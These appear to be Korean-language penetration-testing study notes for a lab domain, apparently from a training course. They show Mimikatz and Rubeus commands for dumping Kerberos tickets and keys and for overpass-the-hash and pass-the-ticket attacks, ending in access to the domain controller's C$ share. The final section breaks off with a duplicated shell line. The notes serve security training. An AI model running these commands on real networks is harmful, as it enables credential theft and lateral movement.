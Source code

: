 ```
### Windows에서 Kerberos 티켓 수집
> 모든 티켓을 수집하려면 Mimikatz 또는 Rubeus를 관리자로 실행해야 함

#### Mimikatz - Export Tickets
```
c:\tools> mimikatz.exe
mimikatz # privilege::debug
mimikatz # sekurlsa::tickets /export
c:\tools> dir *.kirbi
```
- `$`로 끝나는 티켓은 Active Directory와 상호 작용하려면 티켓이 필요한 컴퓨터 계정에 해당<br/>
- 사용자 티켓에는 사용자의 이름과 서비스 이름과 도메인을 구분하는 `@`가 뒤따름(예: `[randomvalue]-username@service-domain.local.kirbi`)<br/>
> Mimikatz 버전 2.2.0 20220919를 사용하여 "sekurlsa::ekeys"를 실행하면 일부 Windows 10 버전에서 모든 해시가 des_cbc_md4로 표시.
> 내보낸 티켓(sekurlsa::tickets/export)이 잘못된 암호화로 인해 올바르게 작동하지 않음.
> 새 티켓을 생성하거나 Rubeus를 사용하여 기본 64 형식으로 티켓을 내보냄

#### Rubeus - Export Tickets
```c:\tools> Rubeus.exe dump /nowrap```

### Pass the Key or OverPass the Hash(티켓 위조)
> Mimikatz는 해시 패스/키 패스 공격을 수행하려면 관리자 권한이 필요하지만, Rubeus는 그렇지 않음

#### Mimikatz - Extract Kerberos Keys
```
c:\tools> mimikatz.exe
mimikatz # privilege::debug
mimikatz # sekurlsa::ekeys
```

#### Mimikatz - Pass the Key or OverPass the Hash
```
c:\tools> mimikatz.exe
mimikatz # privilege::debug
mimikatz # sekurlsa::pth /domain:inlanefreight.htb /user:plaintext /ntlm:3f74aa8f08f712f09cd5177b5c1ce50f
```

#### Rubeus - Pass the Key or OverPass the Hash
```c:\tools> Rubeus.exe  asktgt /domain:inlanefreight.htb /user:plaintext /aes256:b21c99fc068e3ab2ca789bccbef67de43791fd911c6e15ead25641a8fda3fe60 /nowrap```

### Pass the Ticket(PtT)

#### Rubeus Pass the Ticket
```c:\tools> Rubeus.exe asktgt /domain:inlanefreight.htb /user:plaintext /rc4:3f74aa8f08f712f09cd5177b5c1ce50f /ptt```<br/>
```
c:\tools> Rubeus.exe ptt /ticket:[0;6c680]-2-0-40e10000-plaintext@krbtgt-inlanefreight.htb.kirbi
c:\tools> dir \\DC01.inlanefreight.htb\c$
```

#### Convert .kirbi to Base64 Format
```PS c:\tools> [Convert]::ToBase64String([IO.File]::ReadAllBytes("[0;6c680]-2-0-40e10000-plaintext@krbtgt-inlanefreight.htb.kirbi"))```

#### Pass the Ticket - Base64 Format
```
Rubeus.exe ptt /ticket:doIE1jCCBNKgAwIBBaEDAgEWooID+TCCA/VhggPxMIID7aADAgEFoQkbB0hUQi5DT02iHDAaoAMCAQKhEzARGwZrcmJ0Z3QbB2h0Yi5jb22jggO7MIIDt6ADAgESoQMCAQKiggOpBIIDpY8Kcp4i71zFcWRgpx8ovymu3HmbOL4MJVCfkGIrdJEO0iPQbMRY2pzSrk/gHuER2XRLdV/<SNIP>
c:\tools> dir \\DC01.inlanefreight.htb\c$
```

#### Mimikatz - Pass the Ticket
```
C:\tools> mimikatz.exe
mimikatz # privilege::debug

[DC01]: PS C:\Users\john\Documents> whoami
[DC01]: PS C:\Users\john\Documents> whoami